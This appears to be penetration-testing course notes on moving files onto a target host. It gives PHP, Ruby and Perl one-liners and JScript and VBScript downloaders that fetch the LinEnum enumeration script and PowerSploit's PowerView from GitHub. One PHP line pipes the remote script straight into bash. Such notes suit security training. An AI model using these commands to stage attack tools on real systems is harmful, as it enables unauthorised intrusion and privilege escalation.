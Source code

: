- php download a file and pipe it to bash
```shell-session
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

- ruby download
```shell-session
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

- perl download
```shell-session
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

- Javascript
We can download a file using this code:
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

We'll save this as a file called <mark class="hltr-green">wget.js</mark> and then use it to download files:

```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

- VBS
wget.vbs:
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

cmd:
```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```
